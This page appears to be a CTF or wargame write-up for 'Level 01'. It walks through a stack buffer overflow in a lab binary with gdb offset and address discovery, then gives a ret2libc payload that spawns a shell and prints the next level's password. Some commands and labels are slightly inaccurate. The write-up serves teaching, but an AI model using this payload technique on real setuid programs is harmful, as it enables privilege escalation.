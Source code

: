 ```yaml
---
sidebar_position: 3
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🔐 Level 01

<MissionObjective 
  level="Level 01"
  target="level02 privileges"
  method="Buffer overflow exploitation"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Stack-based Buffer Overflow"
  severity="high"
  description="The binary contains a buffer overflow vulnerability where fgets() reads 100 bytes into a 16-byte buffer. This allows overwriting the saved return address on the stack to redirect execution flow."
  techniques={[
    "Buffer Overflow",
    "Return Address Overwrite", 
    "ROP Chain Construction"
  ]}
/>

## Binary Analysis

<CodeBlock 
  title="GDB Disassembly"
  command="gdb -q ./level01"
  output={`(gdb) disas main
Dump of assembler code for function main:
   0x08048464 <+0>:     push   %ebp
   0x08048465 <+1>:     mov    %esp,%ebp
   ...
   [Two fgets() calls visible]
   [Logic flow with verify_user_name and verify_user_pass]
   ...`}
/>

**Key Observations:**
- Program has two `fgets()` calls for username and password input
- Second `fgets()` reads 100 bytes into a 16-byte buffer
- Classic stack-based buffer overflow vulnerability

## Vulnerability Discovery

<CodeBlock 
  title="Vulnerable Code Analysis"
  command="# In main function:"
  output={`char buffer[16];           // 16-byte buffer on stack
fgets(buffer, 100, stdin);  // Reads up to 100 bytes - OVERFLOW!`}
/>

## Finding the Offset

<CodeBlock 
  title="EIP Offset Discovery"
  command='python -c "print("dat_wil\n" + "A"*100)" > /tmp/input.txt'
  output="Creating test payload to find EIP overwrite offset"
/>

<CodeBlock 
  title="Testing with GDB"
  command="gdb ./level01"
  output={`(gdb) run < /tmp/input.txt
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax: 0x0  ebx: 0x0  ecx: 0x0  edx: 0x0
esp: 0xbffff700  ebp: 0x41414141  esi: 0x0  edi: 0x0
eip: 0x41414141  <-- EIP overwritten with 'AAAA'`}
/>

**Critical Discovery:** EIP is overwritten at offset 80 bytes!

## Address Discovery

<CodeBlock 
  title="Finding system() address"
  command="(gdb) find 0xf7e2c000, 0xf7fcc000, system"
  output={`0xf7e6aed0
(gdb) x/s 0xf7e6aed0
0xf7e6aed0: "system"`}
/>

<CodeBlock 
  title="Finding exit() address"
  command="(gdb) info functions exit"
  output={`0xf7e5eb70  exit
(gdb) x/s 0xf7e5eb70`}
/>

<CodeBlock 
  title="Finding /bin/sh string"
  command="(gdb) find 0xf7e2c000, 0xf7fcc000, /bin/sh"
  output={`0xf7f897ec
(gdb) x/s 0xf7f897ec
0xf7f897ec: "/bin/sh"`}
/>

## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/o2F6KCbfJ4YF5a1k7eONrIQLA.js" 
  id="asciicast-o2F6KCbfJ4YF5a1k7eONrIQLA" 
/>


## Step-by-Step Exploitation

<StepsList steps={[
  {
    title: "Create the payload",
    description: "Construct buffer overflow payload with system() call",
    command: 'python -c "print("dat_wil\n" + "A"*80 + "\\\\xd0\\\\xae\\\\xe6\\\\xf7\\" + \\"\\\\x70\\\\xeb\\\\xe5\\\\xf7\\" + \\"\\\\xec\\\\x97\\\\xf8\\\\xf7\\")" > /tmp/payload',
    output: "Payload structure:\\n- dat_wil\\\\n: valid username\\n- A*80: padding to reach return address\\n- system() address: 0xf7e6aed0\\n- exit() address: 0xf7e5eb70\\n- /bin/sh string: 0xf7f897ec"
  },
  {
    title: "Execute the exploit",
    description: "Launch the binary with our payload to trigger buffer overflow",
    command: "(cat /tmp/payload; cat) | ./level01",
    output: "$ # Shell obtained with level02 privileges"
  },
  {
    title: "Verify privilege escalation",
    description: "Confirm we have successfully escalated to level02",
    command: "whoami",
    output: "level02"
  },
  {
    title: "Access the password",
    description: "Retrieve the password for the next level",
    command: "cat /home/users/level02/.pass",
    output: "PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv"
  }
]} />

## Payload Breakdown

<CodeBlock 
  title="Exploit Structure"
  command="# Payload components:"
  output={`Username: "dat_wil\\\\n"        # Valid username (required)
Padding:  "A" * 80            # Fill buffer up to return address
RET:      0xf7e6aed0          # system() function address  
ARG1:     0xf7e5eb70          # exit() as return address
ARG2:     0xf7f897ec          # "/bin/sh" string address

Stack layout after overflow:
[buffer][padding][system][exit]["/bin/sh"]
                   ^RET   ^ARG1  ^ARG2`}
/>

## Key Takeaways

- **Buffer bounds checking** is critical - never read more data than buffer can hold
- **Stack layout understanding** is essential for precise return address overwriting
- **Dynamic address resolution** using GDB is necessary due to ASLR/library loading
- **ROP chain construction** allows calling functions with arguments via stack manipulation
- **Username validation bypass** - program accepts specific usernames like "dat_wil"

**Tools used:** `gdb`, `python`, buffer overflow techniques, address discovery, ROP chains

:::warning Important Notes
- Addresses may change between runs due to ASLR - always verify addresses before exploitation
- The offset (80 bytes) is specific to this binary's stack layout
- Valid username is required to reach the vulnerable password input function
:::

:::tip Exploitation Method
This classic buffer overflow overwrites the return address to redirect execution to `system("/bin/sh")`, effectively gaining a shell with the target user's privileges.
::: 